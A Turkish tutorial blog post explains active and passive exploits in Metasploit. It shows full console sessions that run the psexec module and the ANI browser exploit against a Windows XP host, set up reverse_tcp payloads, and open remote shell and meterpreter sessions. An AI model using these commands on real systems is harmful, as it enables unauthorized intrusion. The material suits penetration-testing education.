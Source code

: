 ```yaml
---
draft: false
title: MSF İçinde Exploit Çeşitleri
date: 2017-05-13T12:34:00+03:00
author: İbrahim Korucuoğlu ([@siberoloji](https://github.com/siberoloji))
description: Metasploit Framework içerisinde tüm exploit modülleri aktif ve pasif olarak gruplandırılırlar.
url: /tr/msf-icinde-exploit-cesitleri/
featured_image: /images/metasploit.jpg
weight: 60
translation_key: msf-exploit-types
categories:
  - Metasploit Framework
tags:
  - cybersecurity
  - metasploit framework
linkTitle: Exploit Çeşitleri
keywords:
  - exploit
---
```



Metasploit Framework içerisinde tüm exploit modülleri **aktif** ve **pasif** olarak gruplandırılırlar.

## Aktif Exploit

Aktif exploitler, belirli bir hedef üzerinde çalışacak ve işlem tamamlanana kadar çalışmaya devam edecektir. Herhangi bir hata ile karşılaştığında çalışmayı durdururlar.

Örneğin, Brute-force modülü hedef bilgisayarda bir shell komut satırı açılana kadar çalışır ve işlemi bitince durur. İşlemlerinin tamamlanması uzun zaman alabileceğinden `-j` parametresi kullanılarak arka plana gönderilebilirler.

Aşağıdaki örnekte, ms08_067_netapi explotinin çalışmaya başlatılıp arka plana gönderildiğini görebilirsiniz.

```bash
msf exploit**(**ms08_067_netapi**)** > exploit -j
> Exploit running as background job.
msf exploit**(**ms08_067_netapi**)** >
```

## Aktif Exploit Örneği

Bu örnekte, önceden keşif ile bilgileri elde edilen bir hedef bilgisayarın (192.168.1.100) gerekli değişkenleri ayarlanması ve çalışmaya başlaması görülmektedir. Hedef bilgisayarda shell açmak için psexec exploiti ve içerisinde reverse_tcp payload modülü kullanılmaktadır.

```bash
msf > use exploit/windows/smb/psexec
msf exploit**(**psexec**)** > set RHOST 192.168.1.100
RHOST **=>** 192.168.1.100
msf exploit**(**psexec**)** > set PAYLOAD windows/shell/reverse_tcp
PAYLOAD **=>** windows/shell/reverse_tcp
msf exploit**(**psexec**)** > set LHOST 192.168.1.5
LHOST **=>** 192.168.1.5
msf exploit**(**psexec**)** > set LPORT 4444
LPORT **=>** 4444
msf exploit**(**psexec**)** > set SMBUSER victim
SMBUSER **=>** victim
msf exploit**(**psexec**)** > set SMBPASS s3cr3t
SMBPASS **=>** s3cr3t
msf exploit**(**psexec**)** > exploit

> Connecting to the server...
> Started reverse handler
> Authenticating as user 'victim'...
> Uploading payload...
> Created \hikmEeEM.exe...
> Binding to 367abb81-9844-35f1-ad32-98f038001003:2.0@ncacn_np:192.168.1.100[\svcctl] ...
> Bound to 367abb81-9844-35f1-ad32-98f038001003:2.0@ncacn_np:192.168.1.100[\svcctl] ...
> Obtaining a service manager handle...
> Creating a new service **(**ciWyCVEp - "MXAVZsCqfRtZwScLdexnD"**)**...
> Closing service handle...
> Opening service...
> Starting the service...
> Removing the service...
> Closing service handle...
> Deleting \hikmEeEM.exe...
> Sending stage **(**240 bytes**)**
> Command shell session 1 opened **(**192.168.1.5:4444 -> 192.168.1.100:1073**)**

Microsoft Windows XP **[**Version 5.1.2600]
**(**C**)** Copyright 1985-2001 Microsoft Corp.

C:\WINDOWS\system32>
```

## Pasif Exploit

Pasif Exploitler, yerel bilgisayarda (kendi bilgisayarımız) pasif olarak çalışır ve dinlemede kalırlar. Hedef bilgisayarın bir şekilde yerel bilgisayara bağlanmasını beklerler.

Pasif exploitler neredeyse her durumda Web tarayıcı, FTP vb. istemciler üzerine odaklanırlar. Eposta ile gönderilen dosyalar içerisinden bağlantılarda da kullanılabilirler. Pasif exploit çalıştığında beklemeye başlar. Ne zaman bir kullanıcı sitedeki linke tıklar veya bir işlem yapar, işte o zaman dinlemedeki pasif exploit sinyali alır ve hedefte bir **shell** açar.

Arka planda çalışan ve dinleme yapan exploitlerin listesini `sessions` komutuna `-l` parametresi vererek görebilirsiniz. Listeden istediğiniz `ID` numaralı işleme gitmek için `-i` parametresini kullanabilirsiniz.

```bash
msf exploit**(**ani_loadimage_chunksize**)** > sessions -l

Active sessions
**===============**

  Id  Description  Tunnel
  --  -----------  ------
  1   Meterpreter  192.168.1.5:52647 -> 192.168.1.100:4444

msf exploit**(**ani_loadimage_chunksize**)** > sessions -i 1
> Starting interaction with 1...

meterpreter >
```

## Pasif Exploit Örneği

Aşağıdaki örnekte, loadimage_chunksize exploiti ve reverse_tcp payload u kullanılarak bir kullanıcının Web sayfasına girmesi beklenmeye başlanmaktadır. `LHOST` değişkeni yerelde dinleme yapacak bilgisayar IP adresini, `LPORT` ise yerel bilgisayarda dinlenme yapacak port numarasını ifade eder.

```bash
msf > use exploit/windows/browser/ani_loadimage_chunksize
msf exploit**(**ani_loadimage_chunksize**)** > set URIPATH /
URIPATH **=>** /
msf exploit**(**ani_loadimage_chunksize**)** > set PAYLOAD windows/shell/reverse_tcp
PAYLOAD **=>** windows/shell/reverse_tcp
msf exploit**(**ani_loadimage_chunksize**)** > set LHOST 192.168.1.5
LHOST **=>** 192.168.1.5
msf exploit**(**ani_loadimage_chunksize**)** > set LPORT 4444
LPORT **=>** 4444
msf exploit**(**ani_loadimage_chunksize**)** > exploit
> Exploit running as background job.

> Started reverse handler
> Using URL: <a href="http://0.0.0.0:8080/">http://0.0.0.0:8080/</a>
>  Local IP: <a href="http://192.168.1.5:8080/">http://192.168.1.5:8080/</a>
> Server started.
msf exploit**(**ani_loadimage_chunksize**)** >
> Attempting to exploit ani_loadimage_chunksize
> Sending HTML page to 192.168.1.100:1077...
> Attempting to exploit ani_loadimage_chunksize
> Sending Windows ANI LoadAniIcon**()** Chunk Size Stack Overflow **(**HTTP**)** to 192.168.1.100:1077...
> Sending stage **(**240 bytes**)**
> Command shell session 2 opened **(**192.168.1.5:4444 -> 192.168.1.100:1078**)**

msf exploit**(**ani_loadimage_chunksize**)** > sessions -i 2
> Starting interaction with 2...

Microsoft Windows XP **[**Version 5.1.2600]
**(**C**)** Copyright 1985-2001 Microsoft Corp.

C:\Documents and Settings\victim\Desktop>
```

Anlatılmasını istediğiniz diğer başlıkları bize iletebilirsiniz.

## Video Anlatım

{{< youtube 6liQEKnvzhQE >}}
